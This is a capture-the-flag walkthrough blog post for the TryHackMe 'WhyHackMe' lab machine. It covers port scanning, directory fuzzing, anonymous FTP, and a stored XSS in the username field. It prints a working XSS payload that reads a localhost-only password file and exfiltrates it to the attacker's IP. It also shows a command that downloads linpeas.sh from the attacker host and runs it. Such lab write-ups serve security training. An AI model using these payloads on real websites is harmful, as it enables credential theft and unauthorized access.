 ```yaml
---
layout: post
title:  "TryHackMe | Whyhackme"
description: "Walkthrough of whyhackme machine, a Medium rated box from TryHackme"
date: "2024-11-11"
pin: true
image:
  path: ../assets/img/ctf/tryhackme/whyhackme1.png
  alt: "whyhackme.thm"
category: "TryHackMe"
tags: ["ThyHackMe", "Stored XSS", "Iptables Rules", "TLS Traffic Decryption"]
---
```

## Introduction
------------------------------------------------------------------------------------------
[WhyHackMe](https://tryhackme.com/r/room/whyhackme) is a medium rated linux box from tryhackme. It has 3 ports opens 21 running ftp, 22 running ssh and 80 running a web application. The foothold consist of exploiting a stored XSS vulnerability to exfiltrate a critical file that can be dicovered on the ftp server. The privilege escalation part involve playing with ipatables rules and decrypting some TLS traffic to access a backdoor runing on a particular port. From here get a reverse shell as www-data who his allowed to run any command as root without a password.

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opened ports...
### All Open Ports
```bash
rustscan -a 10.10.4.243
```

```text
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (160B)
```
### Services Scanning
```bash
nmap -p21,22,80 -sC -sV -oN whyhackme.full 10.10.4.243
```

```text
Nmap scan report for 10.10.4.243
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.2.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
|_  256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome!!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.99 seconds
```
### Hostname
```bash
echo '10.10.4.243   whyhackme.thm' >> /etc/hosts
```

## FootHold
### Port 21
Since we have anonymous access on the ftp server let's check what we can find there.
```bash
ftp whyhackme.thm
```
![ftp access](./assets/img/ctf/tryhackme/whyhackme2.png)

```text
└─# cat update.txt       
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 

- admin
```
The update.txt file contains an admin message telling that the new account creds can be find at 127.0.0.1/dir/pass.txt, however this is only accessible from localhost.

### Port 80
![web root](./assets/img/ctf/tryhackme/whyhackme3.png)
```bash
ffuf -c -u http://whyhackme.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php
```

```text
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://whyhackme.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 55ms]
blog.php                [Status: 200, Size: 3102, Words: 422, Lines: 23, Duration: 54ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8150ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8583ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8801ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9094ms]
.hta.php                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9471ms]
cgi-bin/                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 55ms]
cgi-bin/.php            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
                        [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 54ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 54ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 56ms]
dir                     [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 61ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 66ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 68ms]
login.php               [Status: 200, Size: 523, Words: 45, Lines: 21, Duration: 59ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
register.php            [Status: 200, Size: 643, Words: 36, Lines: 23, Duration: 64ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 60ms]
```
![registration](./assets/img/ctf/tryhackme/whyhackme4.png)
One registered, we can login at `/login.php`. After loged in we can access the blog page where we are allowed to add comments. Let's try adding a comment... 
![blog](./assets/img/ctf/tryhackme/whyhackme9.png)
As we can see, our comment get obviously saved on the server and can be viewed by all the users. We can test for xss there but also in the username field of the registration page since our username also get displayed back.
After trying, i got my xss payload from the username field executed...
![no xss](./assets/img/ctf/tryhackme/whyhackme10.png)
![xss-malicioususer](./assets/img/ctf/tryhackme/whyhackme11.png)
![xss-poc](./assets/img/ctf/tryhackme/whyhackme12.png)
How can we leverage this xss? The admin comment on the blog: `Hey people, I will be monitoring your comments so please be safe and civil`, this suggest us that we can try to leverage this and steal the admin cookie so we can be can have admin access in the applicatin. I've tryied that but no success. However, a recall that we have gotten an admin note from the ftp server. Since we can't access the admin cookie but still can perform actions as admin and in our case i guess the admin is acccessing the blog from localhost. This gives us an opportunity using the xss to exfiltrate the pass.txt file.
```js
<script>fetch("http://127.0.0.1/dir/pass.txt").then(r => r.text()).then(t => fetch("http://10.9.2.138/?q="+t,{mode:"no-cors"}))</script>
```
![exfiltration](./assets/img/ctf/tryhackme/whyhackme13.png)

### Port 22
```bash
ssh jack@whyhackme.thm
```
![registration](./assets/img/ctf/tryhackme/whyhackme5.png)


## Privilege Escalation
```bash
wget http://10.9.2.138/linpeas.sh
./linpeas.sh
```
![sudo -l](./assets/img/ctf/tryhackme/whyhackme6.png)
![another vhost](./assets/img/ctf/tryhackme/whyhackme7.png)
![opt folder](./assets/img/ctf/tryhackme/whyhackme8.png)


## Kill Chain Summary


## References